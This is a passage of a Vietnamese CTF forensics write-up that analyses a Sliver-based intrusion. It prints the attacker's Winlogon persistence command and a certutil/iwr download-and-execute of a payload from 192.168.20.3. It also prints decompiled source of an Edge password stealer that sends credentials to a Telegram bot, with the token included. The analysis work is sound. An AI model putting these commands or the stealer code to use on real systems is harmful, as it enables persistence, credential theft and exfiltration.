cái thứ 2 sẽ là thiết lập persistance
```
decrypted_sliver/frame_91_gzip_gzip.dec
Envelope.Type: 22
[TunnelData]
Sequence: 0
Ack: 0
TunnelID: 7069037690367986217
Data repr: b'reg add "HKCU\\Software\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon" /v Shell /t REG_SZ /d "explorer.exe,cmd.exe /c certutil -urlcache -split -f http://192.168.20.3/cailonmemay.exe %TEMP%\\svhost.exe & %TEMP%\\svhost.exe & timeout 3 & del %TEMP%\\svhost.exe" /f\n'
Data text:
reg add "HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /t REG_SZ /d "explorer.exe,cmd.exe /c certutil -urlcache -split -f http://192.168.20.3/cailonmemay.exe %TEMP%\svhost.exe & %TEMP%\svhost.exe & timeout 3 & del %TEMP%\svhost.exe" /f
```
cái thứ 3 là tải concacbamay.exe
```
decrypted_sliver/frame_109_gzip_gzip.dec
Envelope.Type: 22
[TunnelData]
Sequence: 1
Ack: 0
TunnelID: 7069037690367986217
Data repr: b'iwr http://192.168.20.3/concacbamay.exe -o "$env:TEMP\\explorer.exe"; & "$env:TEMP\\explorer.exe"; sleep 2\n'
Data text:
iwr http://192.168.20.3/concacbamay.exe -o "$env:TEMP\explorer.exe"; & "$env:TEMP\explorer.exe"; sleep 2
```


# q12: What is the full command used to download and exfiltrate user credentials?
ok đoạn này thì ta tìm được ở trên rồi nó là và đoạn sau khi mở source code ra cũng cho thấy nó hoàn toàn là con stealer để đánh cắp thông tin đăng nhập của edge
```
iwr http://192.168.20.3/concacbamay.exe -o "$env:TEMP\explorer.exe"; & "$env:TEMP\explorer.exe"; sleep 2
```


# q13: Where did the attacker exfiltrate browser credentials to?

mình có thử ném nó lên detect it easy sau đó biết rằng 
`Packer: PyInstaller [modified]`
nó có 1 payload python được đóng gói bên trong, mình sẽ dùng pyinstxtractor để xuất và xem thử



trong đó có 1 file tên mal.pyc

mình mang nó lên web PyLingual để xem thì có được toàn bộ source

```
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: mal.py
# Bytecode version: 3.13.0rc3 (3571)
# Source timestamp: 1970-01-01 00:00:00 UTC (0)

import os
import sys
import subprocess
import importlib
import json
import base64
import sqlite3
import shutil
from datetime import datetime
import hashlib
import sys
import io
sys.stdout = io.TextIOWrapper(sys.stdout.buffer, encoding='utf-8')
sys.stderr = io.TextIOWrapper(sys.stderr.buffer, encoding='utf-8')
BOT_TOKEN = '8332646887:AAHZLz-lcC8K_S2XUfJy7PmlXol5XaERVP8'
CHAT_ID = '-1002796536763'
REQUIRED_LIBRARIES = ['win32crypt', 'Crypto.Cipher', 'requests']

def check_and_install_python():
    """Check if Python is installed, if not install it"""  # inserted
    try:
        result = subprocess.run([sys.executable, '--version'], capture_output=True, text=True, check=True)
        print(f'✅ Python is installed: {result.stdout.strip()}')
        return True
    except:
        print('❌ Python is not installed or not in PATH')
        print('📥 Installing Python...')
        try:
            python_url = 'https://www.python.org/ftp/python/3.11.7/python-3.11.7-amd64.exe'
            installer_path = os.path.join(os.getenv('TEMP'), 'python_installer.exe')
            import urllib.request
            print('Downloading Python installer...')
            urllib.request.urlretrieve(python_url, installer_path)
            print('Installing Python...')
            subprocess.run([installer_path, '/quiet', 'InstallAllUsers=1', 'PrependPath=1'], check=True, timeout=300)
            print('✅ Python installed successfully')
            return True
        except Exception as e:
            print(f'❌ Failed to install Python: {e}')
            return False

def check_and_install_libraries():
    """Check and install required Python libraries"""  # inserted
    missing_libs = []
    for lib in REQUIRED_LIBRARIES:
        try:
            if '.' in lib:
                main_package = lib.split('.')[0]
                importlib.import_module(main_package)
            print(f'✅ {lib} is installed')
    else:  # inserted
        if missing_libs:
            print(f"📥 Installing missing libraries: {', '.join(missing_libs)}")
            try:
                for lib in missing_libs:
                    install_name = lib
                    if lib == 'win32crypt':
                        install_name = 'pywin32'
                    print(f'Installing {install_name}...')
                    subprocess.run([sys.executable, '-m', 'pip', 'install', install_name], check=True, capture_output=True)
                    print(f'✅ {lib} installed successfully')
        return True
    except ImportError:
        print(f'❌ {lib} is missing')
        missing_libs.append(lib)
    except subprocess.CalledProcessError as e:
        print(f'❌ Failed to install libraries: {e}')
        return False

def install_dependencies():
    """Main function to install all dependencies"""  # inserted
    print('🔍 Checking system dependencies...')
    if not check_and_install_python():
        pass  # postinserted
    return False
try:
    import win32crypt
    from Crypto.Cipher import AES
    import requests
    LOCAL = os.getenv('LOCALAPPDATA')
    PATHS = {'Edge': os.path.join(LOCAL, 'Microsoft', 'Edge', 'User Data')}

    class TelegramSender:
        def __init__(self, bot_token, chat_id):
            self.bot_token = bot_token
            self.chat_id = chat_id
            self.base_url = f'https://api.telegram.org/bot{bot_token}'

        def send_message(self, text):
            """Send message to Telegram"""  # inserted
            url = f'{self.base_url}/sendMessage'
            payload = {'chat_id': self.chat_id, 'text': text, 'parse_mode': 'HTML'}
            try:
                response = requests.post(url, data=payload)
                return response.status_code == 200
            except:
                return False

    def get_encryption_key():
        """Generate AES key from computer name"""  # inserted
        computer_name = os.environ['COMPUTERNAME']
        key_hash = hashlib.sha256(computer_name.encode()).digest()
        key = key_hash
        iv = key_hash[(-16):]
        return (key, iv)

    def encrypt_data(data, key, iv):
        """Encrypt data with AES-CBC with proper padding"""  # inserted
        cipher = AES.new(key, AES.MODE_CBC, iv)
        data_bytes = data.encode('utf-8')
        pad_length = 16 - len(data_bytes) % 16
        padded_data = data_bytes + bytes([pad_length] * pad_length)
        encrypted = cipher.encrypt(padded_data)
        return base64.b64encode(encrypted).decode('utf-8')

    def encrypt(path):
        try:
            with open(os.path.join(path, 'Local State'), encoding='utf-8') as f:
                key = base64.b64decode(json.load(f)['os_crypt']['encrypted_key'])[5:]
                    return win32crypt.CryptUnprotectData(key, None, None, None, 0)[1]
        except:
            pass  # postinserted
        return None

    def decrypt(buff, key):
        try:
            iv, payload = (buff[3:15], buff[15:])
            return AES.new(key, AES.MODE_GCM, iv).decrypt(payload)[:(-16)].decode()
        except:
            try:
                return win32crypt.CryptUnprotectData(buff, None, None, None, 0)[1].decode()
            except:
                return ''

    def extract_edge_passwords():
        res = []
        edge_path = PATHS['Edge']
        if not os.path.exists(edge_path):
            print('❌ Edge browser not found')
            return res

    def format_edge_results(passwords):
        """Format the extracted Edge passwords as plain text for encryption"""  # inserted
        if not passwords:
            pass  # postinserted
        return '❌ No passwords found in Microsoft Edge.'

    def send_encrypted_chunks(data, telegram):
        """Encrypt data and send as chunks to Telegram"""  # inserted
        key, iv = get_encryption_key()
        encrypted_data = encrypt_data(data, key, iv)
        print(f'Original data size: {len(data)} characters')
        print(f'Encrypted data size: {len(encrypted_data)} characters')
        max_chunk_size = 3500
        chunks = [encrypted_data[i:i + max_chunk_size] for i in range(0, len(encrypted_data), max_chunk_size)]
        print(f'Sending {len(chunks)} encrypted chunks...')
        for i, chunk in enumerate(chunks, 1):
            chunk_message = f'🔐 EDGE_CHUNK[{i}/{len(chunks)}]:{chunk}'
            success = telegram.send_message(chunk_message)
            if success:
                print(f'✅ Chunk {i}/{len(chunks)} sent successfully')
            else:  # inserted
                print(f'❌ Failed to send chunk {i}/{len(chunks)}')
        return len(chunks)

    def send_edge_to_telegram(passwords):
        """Send extracted Edge passwords to Telegram with encryption"""  # inserted
        telegram = TelegramSender(BOT_TOKEN, CHAT_ID)
        if not passwords:
            telegram.send_message('❌ No passwords were found in Microsoft Edge.')
        return None

    def main():
        """Main execution function"""  # inserted
        print('=== MICROSOFT EDGE PASSWORD EXTRACTOR ===')
        print('Starting Edge password extraction...')
        passwords = extract_edge_passwords()
        print(f'Extracted {len(passwords)} passwords from Edge')
        send_edge_to_telegram(passwords)
        print('Encrypted Edge data sent to Telegram')
    if __name__ == '__main__':
        main()
except ImportError as e:
    print(f'❌ Critical import error: {e}')
    print('Please run the script again to install dependencies')
    sys.exit(1)
```
ừ thì đại khái là nó vào path %LOCALAPPDATA%\Microsoft\Edge\User Data sau đó lấy local state và lấy thêm vài cái nữa để giải mã lấy password của edge rồi nó gửi dữ liệu tới bot token của telegram, có thể thấy trong code
```
BOT_TOKEN = '8332646887:AAHZLz-lcC8K_S2XUfJy7PmlXol5XaERVP8'
CHAT_ID = '-1002796536763'
```
vậy câu 13 đáp án là Telegram


# q14: What are the exfiltrated credentials? (username:password)
ở đây dựa theo script ta có thể sử dụng bot để tìm pass nhưng mình ko làm được vì vậy nên định dựa vào local state và login data tuy nhiên ko tìm đc local state mà chỉ có thể dựa vào login data để tìm username là nh0kt1g3r12 đồng thời tìm đc luôn cả site là https://hehehe.com/, ta bị thiếu mất pass nos bị mã hóa và thiếu mất local stage để giải 

vì vậy hướng đi tiếp theo của mình là dump edge để tìm offset chứa 2 thông tin là username nh0kt1g3r12 và https://hehehe.com/ để tìm kiếm xem có pass nằm lẫn ở trong không sở dĩ có quyết định này là vì khi đọc trong login data nó chỉ có duy nhất 1 trang web là hehe.com, mặc dù ở đây không có local stage để giải mã tuy nhiên nếu muốn đăng nhập được thì chính edge phải lấy cái đoạn pass bị mã hóa đó, giải mã ra rồi mới đăng nhập được, chính vì vậy suy nghĩ có thể ra đáp án ở đây là trong cái pid của edge rất có thể sẽ chứa thông tin của password vì đôi khi edge còn phải giữ plain text để lỡ trong các chức năng như auto fill hoặc user muốn hiển thị pass để xem.
Sau đó mình dump pid của edge bằng memmap để xem các pid của edge thôi vì con stealer nó lấy thông tin từ edge mà quét cả envidence.dmp.raw thì rất lâu và nhiều nhiễu, sau đó strings để xem có plain text lạ nào xuất hiện gần 2 thông tin đã có không thì thấy được ntn
lệnh mình dùng

```
 strings -a -td edge_memmap/pid.9248.dmp | grep -E 'hehehe.com|nh0kt1g3r12'
```

khá là vô tình tìm được, trông có vẻ cái string grep này hơi trick lỏ nên mình không đánh giá đây là cách hay lắm nhưng cái này cũng dẫn ra được đáp án 14
nh0kt1g3r12:welcome_to_the_world_of_forensics
vậy đây là tổng đáp án của FIXFIXFIX challenge


Toàn bộ quá trình ta dựng lại được rằng là người này bị dụ sử dụng lệnh để chạy và tải và chạy con malware cailonmemay.exe con malware này là loại sliver thâm nhập vào máy khi user đã chạy payload sliver nó sẽ kết nối tới sliver server và nhận lệnh từ attacker, đầu tiên attacker mở shell, thiết lập persistence bằng cách sửa giá trị `Shell` trong `HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon` nhằm khiến mỗi lần user đăng nhập là mỗi lần tải sau đó attacker tải concacbamay.exe một con stealer dùng để lấy cắp thông tin và pass của user rồi tuồn dữ liệu lên telegram bot.


